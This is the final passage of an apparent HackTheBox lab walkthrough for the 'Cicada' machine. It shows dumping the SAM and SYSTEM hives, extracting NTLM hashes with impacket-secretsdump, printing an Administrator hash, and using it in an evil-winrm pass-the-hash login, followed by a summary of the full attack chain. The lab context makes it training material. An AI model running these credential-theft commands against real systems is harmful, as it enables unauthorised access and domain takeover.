 **Alternative:** In addition to `reg save`, tools like `diskshadow` or `ntdsutil` can be used to dump hives, but `reg save` is simpler and works reliably on most Windows systems.

---

### 4.3 Downloading the Hives

We transfer both files to our local machine:

``` bash
download sam.hive 
download system.hive
```

---

### 4.4 Extracting NTLM Hashes

We use `impacket-secretsdump` locally to dump the NTLM hashes from the extracted hives:

``` bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![local_hives](GitHubv2/HackTheBox/EASY/Cicada/screenshots/local_hives.png)

**Finding:**  
We recover the **Administrator** NTLM hash:

`2b87e7c93a3e8a0ea4a581937016f341`

---

### 4.5 Pass-the-Hash to Administrator

We reuse the NTLM hash to authenticate as the `Administrator` account via Evil-WinRM:

``` bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
```

![root_flag](GitHubv2/HackTheBox/EASY/Cicada/screenshots/root_flag.png)

We gain a privileged shell and retrieve the **root flag** from the Administrator’s desktop.

---
# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. **SMB Null Session** → Access to `HR` share with default password.
2. **RID Brute Force** → Enumerated domain users.
3. **Password Spraying** → Found `michael.wrightson` using default password.
4. **User Description Leak** → Retrieved `david.orelious` credentials.
5. **Share Enumeration** → Extracted `emily.oscars` credentials from `DEV` share.
6. **SeBackupPrivilege Abuse** → Extracted SAM & SYSTEM hives to get Administrator NTLM hash.
7. **Pass-the-Hash** → Full domain compromise.

---